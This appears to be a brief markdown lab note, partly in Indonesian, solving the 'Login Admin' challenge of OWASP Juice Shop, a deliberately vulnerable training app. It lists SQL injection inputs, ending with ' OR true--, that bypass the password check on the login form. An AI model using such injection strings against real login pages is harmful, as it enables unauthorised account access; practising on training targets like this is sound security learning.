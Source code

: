 # - Login Admin
Log in with the administrator's user account.

# - Link
https://juice-shop.herokuapp.com/#/

# - Step
1. Dicoba hanya '
2. Terus ' OR true
3. Dan dilanjutkan dengan ' OR true-- untuk dikomen passwordnya
